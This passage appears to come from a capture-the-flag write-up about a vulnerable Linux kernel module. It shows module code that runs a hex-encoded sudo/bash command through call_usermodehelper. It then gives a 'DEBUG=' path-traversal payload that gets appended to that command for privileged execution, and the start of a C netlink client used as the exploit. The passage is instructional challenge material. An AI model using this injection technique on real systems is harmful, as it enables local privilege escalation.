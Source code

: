 ```c
                    "\x4e\x55\x4c\x4c" };

                call_usermodehelper(debug[0], debug, NULL, UMH_WAIT_EXEC);

            }
#endif
        }
    }




}


static int __init nl_module_init(void)
{
    printk("Entering: %s\n",__FUNCTION__);
    nl_sk=netlink_kernel_create(&init_net, NETLINK_USER, 0, task_nl_recv_msg, NULL, THIS_MODULE);
    if(!nl_sk)
    {
        printk(KERN_ALERT "Error creating socket.\n");
        return -10;
    }
    return 0;
}

static void __exit nl_module_exit(void){
    printk(KERN_INFO "exiting hello module\n");
    netlink_kernel_release(nl_sk);
}

module_init(nl_module_init);
module_exit(nl_module_exit);

MODULE_LICENSE("GPL");

```

Again, nothing really hardcore: we could gain privileged code execution in the kernel context by sending a message to the kernel via a socket like the following

    DEBUG=../../../../path/to/our/payload

and this would be appended to the hex encoded debugging routine becoming:

    /usr/bin/sudo -u #13 /bin/bash -c ../../../../path/to/our/payload

to get executed by *call_usermodehelper()*

The following C code was used to interact with the kernel and retrieve the flag

```c
#include <sys/socket.h>
#include <linux/netlink.h>

#define NETLINK_USER 31

#define MAX_PAYLOAD 1024 /* maximum payload size*/
struct sockaddr_nl src_addr, dest_addr;
struct nlmsghdr *nlh = NULL;
struct iovec iov;
int sock_fd;
struct msghdr msg;

void main(int argc, char *argv[])
```